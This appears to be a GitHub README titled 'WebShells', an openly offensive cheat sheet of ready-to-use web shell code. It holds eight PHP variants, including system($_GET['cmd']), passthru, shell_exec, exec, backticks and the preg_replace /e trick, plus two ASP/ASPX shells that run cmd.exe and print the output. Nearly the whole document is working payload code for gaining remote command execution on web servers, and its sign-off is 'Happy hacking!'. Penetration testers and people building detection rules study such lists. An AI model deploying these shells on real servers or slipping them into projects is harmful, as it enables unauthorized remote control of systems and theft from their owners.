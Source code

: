 # WebShells

> **Disclaimer**  
> This repository is currently under construction. The content is being updated and expanded. New file extensions and detailed descriptions will be added soon. Stay tuned for more additions. Happy hacking!

Currently this document outlines the usage of various PHP file extensions commonly used for web shells and their potential to be exploited for Remote Code Execution (RCE).

# PHP Webshells

#### 1. Basic Command Execution Using system()
```php
<?php system("whoami"); ?>
```

#### 2. Passing Commands via URL Parameters with system() (shell.php?cmd=whoami)
```php
<?php system($_GET['cmd']); ?>
```

#### 3. Executing System Commands with passthru()
```php
<?php passthru($_GET['cmd']); ?>
```

#### 4. Capturing Command Output Using shell_exec()
```php
<?php echo shell_exec("whoami"); ?>
```

#### 5. Using exec() to Run Commands (Outputs Only Last Line)
```php
<?php echo exec("whoami"); ?>
```

#### 6. Storing Full Output from exec() as an Array
```php
<?php
exec("ls -la", $output);
print_r($output);
?>
```

#### 7. Backtick Syntax for Simple Command Execution
```php
<?php echo `whoami`; ?>
```

#### 8. Legacy preg_replace() Execution Trick (Deprecated)
```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

# ASPX Webshells

#### 1. Classic VBScript-Style ASP Command Execution
```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

#### 2. Executing Commands in C# ASPX with Output Display
```aspx
<%@ Page Language="C#" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c whoami";
    p.StartInfo.RedirectStandardOutput = true;
    p.StartInfo.UseShellExecute = false;
    p.Start();
    string output = p.StandardOutput.ReadToEnd();
    Response.Write("<pre>" + output + "</pre>");
}
</script>
```


